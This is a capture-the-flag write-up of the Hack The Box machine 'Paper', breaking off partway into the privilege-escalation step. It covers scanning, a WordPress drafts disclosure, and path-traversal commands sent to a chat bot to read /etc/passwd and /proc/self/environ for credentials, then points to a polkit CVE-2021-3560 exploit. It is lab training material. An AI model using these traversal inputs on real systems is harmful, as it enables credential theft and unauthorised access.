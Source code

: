 # @Author : M3tr1c_r00t
## Paper!
![Paper](https://user-images.githubusercontent.com/99975622/207163312-7f2ee8ee-ae72-40b6-aac2-d67468a1c143.png)
Paper is an easy box where we can exploit an Arbitrary File Read Vulnerability off Drafted posts from wordpress version 5.2.3 to get creds of the site and ssh as the given user and using linpeas to get root user....

### Enumeration
_**Nmap...**_
<br> There were 3 ports open on the box i.e 22, 80 and 443

```
# Nmap 7.92 scan initiated Tue Nov 22 19:22:44 2022 as: nmap -sC -sV -A -p 22,80,443 -oN nmapports.txt 10.129.136.31
Nmap scan report for 10.129.136.31
Host is up (0.77s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 4.11 (94%), Linux 5.1 (94%), HP P2000 G3 NAS device (93%), Linux 3.18 (93%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   538.70 ms 10.10.14.1
2   538.53 ms 10.129.136.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 22 19:23:54 2022 -- 1 IP address (1 host up) scanned in 70.12 seconds

```
On visiting the ip on port 80, we are redirected to host;
<br> **_office.paper_**
![Screenshot_2022-11-22_23_41_07](https://user-images.githubusercontent.com/99975622/207164883-bedc026b-765a-4d1f-b921-c8a807aff166.png)

<br>So , lets add that to our /etc/hosts file ...
![Screenshot_2022-11-22_23_44_09](https://user-images.githubusercontent.com/99975622/207164972-df0f6c1a-d85d-4ebe-9fc2-c71e25192e1d.png)

**_Gobuster/Directory Brute...._**
<br>Next up, i ran a gobusterscan using common.txt wordlists and found a directory "/manual" which reveals to us this is a wordpress site...
```
/.hta                [33m (Status: 403) [0m [Size: 199]
/.htaccess           [33m (Status: 403) [0m [Size: 199]
/.htpasswd           [33m (Status: 403) [0m [Size: 199]
/cgi-bin/            [33m (Status: 403) [0m [Size: 199]
/manual              [36m (Status: 301) [0m [Size: 236] [34m [--> http://10.129.136.31/manual/] [0m
```
On that note, I did a wordpress scan using wpscan and we find the version...
![Screenshot_2022-11-22_23_47_42](https://user-images.githubusercontent.com/99975622/207165581-762e5db0-8e57-4113-90a2-53f6447f51f4.png)

Since it's an older version of wordpress, we can search for vulnerabilities....
![Screenshot_2022-11-22_23_53_30](https://user-images.githubusercontent.com/99975622/207165703-56f6de83-0da4-4ba2-88a6-90303eb1e827.png)
And we can see that we can we can get this by adding _**"/?static=1&order=asc"**_ in the url to view the saved drafts...

![Screenshot_2022-11-22_23_53_54](https://user-images.githubusercontent.com/99975622/207166148-24b400c6-f540-4fce-8b9e-d0f8b6ebf829.png)

On doing so, we get an error. But if we get rid of the _**order=asc**_, it works!

![Screenshot_2022-11-22_23_54_04](https://user-images.githubusercontent.com/99975622/207166297-79ebc158-fb92-4105-8a31-367676f6d678.png)

Looking at the dumped drafts, we can see there's an Employee chat system...
![Screenshot_2022-11-22_23_54_18](https://user-images.githubusercontent.com/99975622/207166937-d747360d-338b-4833-8c59-acadcb0f460b.png)
We can visit the url and register...

![Screenshot_2022-11-22_23_55_46](https://user-images.githubusercontent.com/99975622/207166624-34188a3b-e19f-4d5b-aef0-5b31152fa758.png)
We're in....
![Screenshot_2022-11-22_23_57_30](https://user-images.githubusercontent.com/99975622/207167348-32c66759-2566-4f1d-9d29-cc675a13ca7f.png)

After going through the employee's chats, we note that there's a bot in the system set by the admin to run bash commands on the server to get and read files...
![Screenshot_2022-11-22_23_57_49](https://user-images.githubusercontent.com/99975622/207167510-3bb38186-365d-4c9c-a59b-40ccc4a0a5c6.png)
 

```
reclops file ../../../../../etc/passwd
```
we can run the code below to check on the system's environment...
```
reclops file ../../../../../proc/self/environ
```
And we get some creds...
![Screenshot_2022-11-23_00_07_14](https://user-images.githubusercontent.com/99975622/207168981-d6d69328-30d2-43e9-9877-df6c3faaa4d1.png)

<br> We can try to ssh as dwight and it works...
<br> You can get the user flag...
![Screenshot_2022-11-23_00_08_53](https://user-images.githubusercontent.com/99975622/207169064-b3e3d656-85be-4238-9a95-a67c76d92d60.png)

We can also run the script as below adding the environment in the environ directory...
```
reclops file ../../../../../proc/self/environ.env
```
![Screenshot_2022-11-23_00_07_35](https://user-images.githubusercontent.com/99975622/207169293-cb02a5c6-5861-41ea-9996-d1f60dd6e64e.png)

### Priv Esc...
On running Linpeas, we realise that the system is vulnerable to _**"CVE-2021-3560"**_ (Polkit-Privilege-Esclation PoC)
```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
```
Clone the script then 
upload it to the box...
